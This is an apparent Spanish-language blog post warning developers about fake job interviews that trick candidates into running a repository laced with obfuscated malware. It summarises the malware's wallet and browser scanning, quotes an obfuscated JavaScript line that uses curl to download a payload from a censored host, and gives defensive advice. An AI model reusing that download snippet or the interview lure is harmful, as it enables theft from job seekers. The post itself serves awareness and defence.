 ```yaml
---
aliases:
- /es/como-una-entrevista-laboral-se-convierte-en-un-robo-de-criptomonedas/
authors:
- Eduardo Zepeda
categories:
- opinion
coverImage: images/tech-interview-hacking-obfuscated-code.jpg
date: '2024-12-14T22:24:18-06:00'
description: Esta es la historia de un tipo que estuvo a punto de perder todo su criptomonedas
  y probablemente ser hackeado en una entrevista de trabajo para un puesto remoto
keyword: ''
keywords:
- crypto
- interview
- github
- hacking
- docker
slug: /opinion/como-una-entrevista-laboral-se-convierte-en-un-robo-de-criptomonedas/
title: Como Una Entrevista Laboral Se Convierte En Un Robo De Criptomonedas
---
```


El otro día estaba navegando en esa máquina de propaganda política de Elon Musk, también conocida como X, y me topé con esta joya de la desvergüenza humana, un entrevistador que estuvo a punto de hackear a uno de sus postulantes.

{{<ad0>}}

## Ejecución de malware en las entrevistas laborales

La historia es esta: estás necesitado de trabajo, te preparas para la entrevista, y de repente el reclutador te pide clonar [una librería de Github]({{< ref path="/posts/git/el-problema-de-usar-github-para-evaluar-a-desarrolladores/index.md" lang="es" >}}) para que encuentres los errores en el código, una entrevista protocolaria para desarrollo de software, todo normal hasta este punto. Por supuesto que tú, necesitado de un buen laburo, decides seguir con el proceso.

Bueno, pues este chico fue lo suficientemente avispado como para leer el código a ejecutar antes de ejecutar ciegamente su voluminosa librería de *node_modules*. ¿Y con que se encontró? un suculento y delicioso código minimizado, ofuscado y con tintes de poner tu ordenador a minar criptomonedas. 

Nuestro amigo era como Jorge, curioso, así que embelleció el código y encontró:

- Lineas que parecen buscar y leer el contenido de carteras de Solana.
- Scripts que escanean directorios de navegadores.  
- [Llamadas a una API]({{< ref path="/posts/software-architecture/caracteristicas-basicas-de-una-api-rest/index.md" lang="es" >}}) directo a una dirección IP, sin dominio, algunos sin respuesta y otros que descargan scripts ofuscados en Python (supongo que le da un seguimiento al proceso de hackeo instalando un backdoor o algún RAT).


Si quieres ~~infectarte~~ leer el código visita [el repositorio de github](https://gist.github.com/jbrit/9a6525d086411a0fcffea202f368e780#file-initial-obfuscated-iife-js#?), no me hago responsable de nada.

``` javascript
_0x42b722("curl -Lo \"" + _0x157519 + "\" \"" + "http://<censored>/pdown" + "\"", (_0x204dd7, _0x6e1c16, _0x52b515) => {
  if (_0x204dd7) {
    _0x517b73 = 0;
    return void _0x70af27();
  })
```

{{<ad1>}}

## ¿Cómo evitamos caer en estas trampas?

No planeo quedarme solo en el drama. Esto se trata de ofrecer algunas soluciones prácticas para que los script kiddies no te vean la cara de novato en una falsa entrevista de trabajo:

### **Usa un dispositivo diferente**

La opción más cómoda, pero también la más cara, mantén tus dispositivos separados, usa un ordenador para trabajo y pruebas técnicas y otro para tus asuntos personales, criptomonedas incluidas. 

{{<ad2>}}

### **Lee el código, siempre que sea posible**

¿El reclutador te manda un script? Examínalo con cuidado antes de ejecutarlo. Sí, ya sé, a veces el código es demasiado extenso o está ofuscado, pero si tienes algo de experiencia, puedes pasar tus ojos rápidamente por la pantalla y detectar las red flags. Claro, tampoco puedes perder toda la tarde con esto si estás en una entrevista real o valoras tu tiempo.

### **Usa una máquina virtual**

Monta una máquina virtual, ya sea Virtual Box o Gnome Boxes, en Linux, o un [contenedor de Docker completamente aislado]({{< ref path="/posts/docker/docker-curso-practico-con-ejemplos-en-gnu-linux/index.md" lang="es" >}}), si no te molesta no contar con una interfaz gráfica. 

Otra opción disponible, y mi favorita: una live USB con la distribución de tu elección (Debian, Fedora, o lo que quieras).

De esa manera, lo peor que puede pasar es que infecten tu máquina virtual y no tu equipo real con toda tu información personal. ¡Solo ten cuidado los volúmenes compartidos! Si montas tu disco duro en la VM, estás frito.

{{<ad3>}}

### **Cifra tu información sensible**

Aquí entra el clásico consejo de los veteranos de la vieja escuela de TI: **cifra tus datos importantes**. Si alguien logra acceder a tus colección de memes de gatitos, cífralos. 

No planeo ofrecer detalles porque ya hay demasiado en internet, Googlea sobre GPG o lee el manual directamente, si no estás tan familiarizado con la terminal o no te interesa, hay herramientas como Kleopatra, que vuelven más intuitivo el uso de la criptogorafía.

## No ejecutes código arbitrario en tu máquina personal

¿Tienes mejores ideas para protegernos de estas prácticas? Suelta tus consejos en redes sociales y etiquétame. Estoy ansioso de agregar tus sugerencias al post. 

Si quieres leer la historia completa dale una visita al blog de Elon... digo X. Editado: el propietario de la cuenta ha cambiado su configuración de privacidad, así que ahora no puedes ver la conversación completa.